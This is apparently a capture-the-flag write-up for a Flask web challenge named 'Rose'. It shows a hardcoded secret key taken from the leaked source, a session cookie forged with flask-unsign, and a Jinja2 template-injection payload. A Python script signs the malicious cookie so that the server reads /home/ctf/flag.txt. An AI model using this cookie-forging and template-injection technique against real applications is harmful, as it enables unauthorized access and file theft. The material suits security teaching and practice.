 # Rose

## Category
Web

## Description
The owner of the site shut down sign ups for some reason, but we've got a backup of the code.

See if you can get access and get /home/ctf/flag.txt

https://nessus-rose.chals.io/

rose.zip

## Solution

- rose.zip contains the source code of the flask application.
- Running it locally and uncommenting the signup functionality allows creating a new user.
- Using this the structure of the session cookie can be seen

A cookie decoded with [flask-unsign](https://github.com/Paradoxis/Flask-Unsign):
```
flask-unsign -d -c .eJwljjkOQjEMRO-SmiJeEtv_MiiLLSig-EuFuDuR6GaKefM-6R67H4-0nfvlt3R_zrSl0gbxRMVBWXSQRhhxBuyl1sxau7FTm5adYuCsEwirUrj1nkObVlQD7xgwpDtby2wmURTWQgWKmmoRWKDwKCLr0AsTKbduaYlch-9_G1j13V6-4unHmb4_Cv8ydw.ZNTgpw.Q16RikWV_IJT8Kiw3FPcm-vzsFg

{'_fresh': True, '_id': '5ac34d282c3078c38ff934012b5660486b94e3ad90e3fc2d6d132683fe9bb0f8a862891eb2f1c7be49a04997f581e3f87158988571b94fef577c34e543384ab9', '_user_id': '1', 'name': 'test'}
```

The secret to sign the session cookies can be found in `__init__.py`:

```python
app.config['SECRET_KEY'] = 'SuperDuperSecureSecretKey1234!'
```

The template for the dashboard (found in `main.py`) is susceptible to jinja2 template injection with the `name` property in the flask session cookie:
```python
@main.route('/dashboard')
@login_required
def dashboard():
    template = '''
{% extends "base.html" %} {% block content %}
<h1 class="title">
    Welcome, '''+ session["name"] +'''!
</h1>
<p> The dashboard feature is currently under construction! </p>
{% endblock %}
'''
    return render_template_string(template)
```

Python code to generate flask session cookie containing payload to read `/home/ctf/flag.txt`:
```python
#!/usr/bin/env python

from os import chdir, popen
from pathlib import Path


def main():
    target_file = "/home/ctf/flag.txt"

    payload = "'{{get_flashed_messages.__globals__.__builtins__.open(\\'"
    payload += target_file
    payload += "\\').read()}}'"

    cookie = "{'_fresh': True, '_id': '5ac34d282c3078c38ff934012b5660486b94e3ad90e3fc2d6d132683fe9bb0f8a862891eb2f1c7be49a04997f581e3f87158988571b94fef577c34e543384ab9', '_user_id': '1','name':"
    cookie += payload
    cookie += "}"

    cmd = 'flask-unsign --sign --cookie "'
    cmd += cookie
    cmd += "\" --secret 'SuperDuperSecureSecretKey1234!'"

    cookie = popen(cmd).read()

    print(cookie)
    print(popen("flask-unsign --decode --cookie " + cookie).read())  # sanity check


if __name__ == "__main__":
    chdir(Path(__file__).parent.resolve())
    main()
```

Settings the resulting cookie and visiting the dashboard returns the contents of `/home/ctf/flag.txt`

```
flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}
```